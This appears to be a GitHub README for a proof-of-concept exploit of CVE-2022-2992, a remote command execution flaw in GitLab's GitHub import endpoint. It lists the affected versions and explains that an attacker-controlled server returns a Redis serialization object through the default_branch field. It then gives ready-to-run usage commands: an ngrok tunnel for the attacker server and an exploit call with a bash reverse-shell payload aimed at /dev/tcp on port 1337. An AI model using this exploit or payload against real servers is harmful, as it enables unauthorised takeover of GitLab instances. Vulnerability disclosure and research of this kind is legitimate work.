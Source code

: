 # CVE-2022-2992: Remote Command Execution via Github import

## Information
**Description:** This allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.  
**Versions Affected:** all versions from 11.10 prior to 15.1.6, 15.2 to 15.2.4, 15.3 to 15.3.2  
**Version Fixed:** 15.3.2  
**Researcher:** [vakzz](https://twitter.com/wcbowling)  
**Write-up Link:** Coming Soon
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2022-2992  

## Proof-of-Concept Exploit
### Description
A authenticate user can import a repository the Github into the Gitlab. One can trying to import from a attcker's controller server which reply with a Redis serialization protocol object in the nested `default_branch` making the Gitlab to cache this object on redis and the redis to deserialize it and executed aftwards.

### Usage/Exploitation
One will need a [personal access token](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html#create-a-personal-access-token)

```bash
$ bundle install # install dependencies
$ ngrok http 127.0.0.1:4567  # start ngrok tunnel
$ export NGROK_URL=https://68b9-83-173-213-121.eu.ngrok.io # use the url from ngrok
$ ruby exploit.rb http://target.gitlab.com w4dg6wVj7j7xlJgpGLEYdwFe 'bash -c "sh -i >& /dev/tcp/172.23.0.1/1337 0>&1"' # that is a example, use your own payload
```
### Example
![Remote Command Execution via Github import](images/cve-2022-2992.gif)
